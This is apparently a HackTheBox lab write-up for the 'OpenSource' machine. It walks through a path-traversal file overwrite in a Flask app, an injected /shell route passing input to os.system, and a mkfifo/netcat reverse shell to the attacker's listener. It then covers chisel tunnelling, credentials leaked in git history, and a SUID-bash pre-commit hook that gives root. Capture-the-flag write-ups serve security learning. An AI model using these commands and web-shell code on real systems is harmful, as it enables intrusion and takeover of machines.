# HackTheBox - OpenSource


This post is focused on the walkthrough of Easy Linux Machine OpenSource from HackTheBox.

<!--more-->

## Summary

OpenSource from HackTheBox is an Easy Linux Machine. We get initial foothold on a `docker` container by overwriting a file and adding a custom route by taking advantage of the insecure usage of `os.path.join` function. From there we identify an unknown service running on one of the internal servers. We expose that service which leads to another website in which we log in by using the leaked credentials in one of the `git` commits and finally get the `user` via a private ssh key on the website. Taking advantage of auto commiting `git` processes running as `root`, we manipulate the `git hooks` and gain shell as `root`.

## Enumeration

Starting out with the initial nmap scan.

```bash
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/opensource]
└─$ nmap -A -vv 10.10.11.164 -oN nmapN

PORT     STATE    SERVICE REASON      VERSION
22/tcp   open     ssh     syn-ack     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOm3Ocn3qQzvKFsAf8u2wdkpi0XryPX5W33bER74CfZxc4QPasF+hGBNSaCanZpccGuPffJ9YenksdoTNdf35cvhamsBUq6TD88Cyv9Qs68kWPJD71MkSDgoyMFIe7NTdzyWJJjmUcNHRvwfo6KQsVXjwC4MN+SkL6dLfAY4UawSNhJZGTiKu0snAV6TZ5ZYnmDpnKIEZzf/dOK6bBu4SCu9DRjPknuZkl7sKp3VCoI9CRIu1tihqs1NPhFa+XnHSRsULWtQqtmxZP5UXbmgwETxmpfw8M9XcMH0QXr8JSAdDkg2NtIapmPX/a3hVFATYg+idaEEQNlZHPUKLbCTyJ
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLA9ak8TUAPl/F77SPc1ut/8B+eOukyC/0lof4IrqJoPJLYusbXk+9u/OgSGp6bJZhotkJUvhC7k0rsA7WX19Y8=
|   256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINxEEb33GC5nT5IJ/YY+yDpTKQGLOK1HPsEzM99H4KKA
80/tcp   open     http    syn-ack     Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Wed, 06 Jul 2022 15:49:02 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Wed, 06 Jul 2022 15:49:02 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, OPTIONS, HEAD
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: upcloud - Upload files for Free!
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
3000/tcp filtered ppp     no-response
```

Starting with port 80 we have a website.



Scrolling further down, we have a download option to download the source code of the web.



Below the `Download` button, there's also a `Take me there!` button which opens up a file upload page.




Testing out the functionality, we can upload a file and then it provides us with the link to download that file.

Since we got the source code, let's review it now.

### Analyzing the Source Code

From here, there are two paths to get the foothold on the machine. The first is to exploit the `werkzeug debug console` by cracking the pin. We can crack the pin by taking advantage of the LFI vulnerability in the source code. But sadly I couldn't get the console even though I cracked the PIN. I heard others cracked it and got access to the console, so looking forward to reading those writeups.

The other method is to overwrite the `views.py` file again by taking advantage of the `LFI`.

#### Cracking the PIN

Since the `werkzeug debug console` is enabled on the website at `http://opensource.htb/console`.



We can take advantage of [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug) exploit to crack the PIN.

You can also [watch](https://youtu.be/jwBRgaIRdgs) John Hammond's detailed video on this exploit referred to me by @ARZ.

For the exploit to work we need the following mentioned values from the server.



How will we get these values? Through `LFI`.

Looking at the `views.py` file, there's a route defined to get the uploaded files from the server which uses the `path.join` function.



Going through [this](https://blog.0xgodson.me/2022-04-09-path-traversal-via-join/) article, when we provide an absolute path starting with `/` the `os.path.join` behaves differently as shown below.



Source: https://blog.0xgodson.me/2022-04-09-path-traversal-via-join/

We can see on the `utils.py` file that it is removing the `../`.



We can fuzz the payloads to bypass this filtering and read files from the server.

```
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/opensource]
└─$ wfuzz -c -w LFI\ payloads.txt  -u http://opensource.htb/uploads/FUZZ -t 100 --hc 404,500,308
```



Now we can use any of the working payloads to read files from the server.


Now to crack the pin, we have the following values.

- `root` would be the `username` since I didn't find any other user with `/bin/bash` in `/etc/passwd` file.
- `flask.app` as `modname`.
-  `Flask` as `getattr(app, '__name__', getattr(app.__class__, '__name__'))`.
-  `/usr/local/lib/python3.10/site-packages/flask/app.py` as `getattr(mod, '__file__', None)`
- `2485377892356` as the decimal representation of `/sys/class/net/eth0/address`
- `d6934f3e-794c-4e48-b2f4-06bca8ac8cb153e9b96ec5190b54bcca63e76dc04e7507afdfd2805a64b64027aa3c8ed42d3f` as `proc/sys/kernel/random/boot_id` + `/proc/self/cgroup`

Even though I read all these values from the server the exploited PIN still wasn't working for some reason so I couldn't go further than this.

Moving on.

#### Manipulating the views.py

Looking around, there's some filtering applied to our uploaded file path in `/app/app/utils.py` file.


It removes `../` if we provide any.

There's also a `/app/app/views.py` file which is defining the routes.

Looking at the `views.py` file there is the usage of `os.path.join`.



## Foothold

How we will abuse this functionality is we can try overwriting this `views.py` file on the server and add another route leading to command execution.

We change the `views.py` file as follows.

```
import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/download')
def download():
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))


@app.route('/shell')

def rev_shell():

    return os.system(request.args.get('cmd'))
```

And now on `/upload` endpoint we upload our `views.py` file and manipulate the request as follows.



Now we start a netcat listener and browse the `/shell` endpoint with a reverse shell payload.

```
┌──(saad👻ssaadakhtarr)-[~/…/machines/opensource/app/app]
└─$ curl 'http://10.10.11.164/shell?cmd=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202>%261|nc%2010.10.14.55%204444%20>/tmp/f'
```

And we got the foothold.

```
┌──(saad👻ssaadakhtarr)-[~/…/machines/opensource/app/app]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.55] from (UNKNOWN) [10.10.11.164] 39869
/bin/sh: can't access tty; job control turned off
/app # whoami
root
/app #
```

We are inside a `docker` container as `root`.

### Analyzing the internal network

Looking at the `ip` of our target machine we are part of `172.17.0.1` network.



Listing the currently running services.



From our initial nmap scan, we saw port 3000 as filtered. Since there isn't any service running here on port 3000 we can conclude that's a different instance.

What we can do now is we can check for port `3000` on other ip addresses on our network.

For that I uploaded a static nmap binary on the server using the `/upload` functionality.

Upon manually checking the ip addresses, `172.17.0.1` has an open port `3000`.


### Exposing the Internal Port

We'll now use `chisel` to forward this port and access on our machine.

On our local machine
```
┌──(saad👻ssaadakhtarr)-[~/…/machines/opensource/app/app]
└─$ ./chisel server --reverse --port 8000

```

On target machine
```
/app/public/uploads # ./chisel client 10.10.14.50:8000 R:3000:172.17.0.1:3000
```

Now visiting `http://localhost:300/` on our machine will open up the website.


It's a simple website but we need credentials to login to escalate further.

### Finding the leaked credentials

If we analyze the `.git` repo in the source code, in a previous commit there are some credentials.






Now we log in with those credentials.



### Reading the private SSH key

Looking around there's a repo `home_backup` in which there is a `ssh` key.




Trying this key to login as `dev01` through `ssh`.

```
┌──(saad👻ssaadakhtarr)-[~/…/hackthebox/hackthebox/machines/opensource]
└─$ ssh -i id_rsa dev01@opensource.htb                 

dev01@opensource:~$ whoami
dev01

dev01@opensource:~$ 
```

And we're in!

### user.txt

```
dev01@opensource:~$ ls -al
total 44
drwxr-xr-x 7 dev01 dev01 4096 May 16 12:51 .
drwxr-xr-x 4 root  root  4096 May 16 12:51 ..
lrwxrwxrwx 1 dev01 dev01    9 Mar 23  2022 .bash_history -> /dev/null
-rw-r--r-- 1 dev01 dev01  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 dev01 dev01 3771 Apr  4  2018 .bashrc
drwx------ 2 dev01 dev01 4096 May  4 16:35 .cache
drwxrwxr-x 8 dev01 dev01 4096 Oct  6 11:09 .git
drwx------ 3 dev01 dev01 4096 May  4 16:35 .gnupg
drwxrwxr-x 3 dev01 dev01 4096 May  4 16:35 .local
-rw-r--r-- 1 dev01 dev01  807 Apr  4  2018 .profile
drwxr-xr-x 2 dev01 dev01 4096 May  4 16:35 .ssh
-rw-r----- 1 root  dev01   33 Oct  6 11:04 user.txt

dev01@opensource:~$ cat user.txt 
89****************************97

dev01@opensource:~$
```

## Privilege Escalation

### Analyzing the processes

Analyzing the processes with `pspy`, there are some `git` commands that are being executed by `root` user.



We can take advantage of `git hooks` and add a crafted payload in one of the hooks to escalate to root.

### Understading the git hooks


Git hooks are shell scripts found in the hidden . git/hooks directory of a Git repository. These scripts trigger actions in response to specific events, so they can help you automate your development lifecycle.


Out of the `git hooks` there's one called `pre-commit` that lets you execute code before a commit.


The pre-commit hook is run first, before you even type in a commit message. It's used to inspect the snapshot that's about to be committed, to see if you've forgotten something, to make sure tests run, or to examine whatever you need to inspect in the code.


### Exploitation

We will add a `pre-commit` hook in `~/.git/hooks` folder and set the SUID bit for bash in it.

```
dev01@opensource:~$ echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit

dev01@opensource:~$ chmod +x ~/.git/hooks/pre-commit

dev01@opensource:~$ ls -al /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash

dev01@opensource:~$ bash -p

bash-4.4# whoami
root

bash-4.4#
```

### root.txt

```
bash-4.4# ls -al
total 68
drwx------  9 root  root  4096 May 20 09:32 .
drwxr-xr-x 24 root  root  4096 May  4 16:35 ..
lrwxrwxrwx  1 root  root     9 Mar 23  2022 .bash_history -> /dev/null
-rw-r--r--  1 root  root  3106 Apr  9  2018 .bashrc
drwx------  2 root  root  4096 May  4 16:35 .cache
-rw-rw-r--  1 dev01 dev01  269 May  2 23:43 config
drwx------  3 root  root  4096 May  4 16:35 .config
-rw-r--r--  1 root  root   107 Apr 21 15:38 .gitconfig
-rw-------  1 root  root    61 May 16 12:51 .git-credentials
drwx------  3 root  root  4096 May  4 16:35 .gnupg
drwxr-xr-x  3 root  root  4096 May  4 16:35 .local
drwxr-xr-x  4 root  root  4096 May 20 12:38 meta
-rw-r--r--  1 root  root   148 Aug 17  2015 .profile
-rw-r-----  1 root  root    33 Oct  6 11:37 root.txt
-rw-r--r--  1 root  root    66 May 20 09:32 .selected_editor
drwx------  3 root  root  4096 May  4 16:35 snap
drwx------  2 root  root  4096 May  4 16:35 .ssh
-rw-r--r--  1 root  root   165 Apr 27 20:21 .wget-hsts

bash-4.4# cat root.txt 
4f****************************72

bash-4.4#
```

**Thanks for reading!**


